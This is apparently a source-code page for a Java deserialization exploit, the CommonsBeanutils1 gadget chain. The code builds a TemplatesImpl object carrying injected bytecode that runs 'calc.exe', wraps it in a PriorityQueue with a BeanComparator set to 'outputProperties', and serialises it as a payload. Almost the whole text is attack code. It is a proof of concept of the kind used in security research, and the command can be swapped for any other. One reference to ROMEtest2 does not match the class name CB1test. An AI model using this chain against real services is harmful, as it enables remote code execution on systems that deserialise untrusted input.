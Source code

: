 ```java

public class CB1test {
    public CB1test() throws NotFoundException {
    }

    public static class StubTransletPayload extends AbstractTranslet {
        static {
            try {
                Runtime.getRuntime().exec("calc.exe");
            } catch (Exception e) {
                e.printStackTrace();  //发现这里实际上设置与不设置得结果是一样的
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {

        }
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath((new ClassClassPath(ROMEtest2.StubTransletPayload.class)));
        CtClass clazz = pool.get((ROMEtest2.StubTransletPayload.class.getName()));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(templates, "_name", "1");

        BeanComparator comparator = new BeanComparator("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        setFieldValue(comparator, "property", "outputProperties");

        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = templates;

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
```